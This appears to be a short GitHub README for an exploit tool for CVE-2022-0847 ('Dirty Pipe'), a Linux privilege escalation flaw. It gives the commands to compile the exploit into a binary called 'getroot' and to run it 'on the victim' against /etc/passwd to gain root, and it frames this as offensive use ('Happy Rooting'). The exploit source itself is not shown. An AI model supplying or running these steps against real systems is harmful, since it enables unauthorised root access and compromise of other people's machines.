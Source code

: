 # Dirty-Pipe-Oneshot
### Compiled version of CVE-2022-0847 aka Dirty Pipe. Just one shot to root them all :D
---
just comple the cve-2022-0847.c file

```
gcc cve-2022-0847.c -o getroot
```

then execute it on the victim & get root :D
```
./getroot /etc/passwd 1 ootz:
```

#### Happy Rooting 🎭 
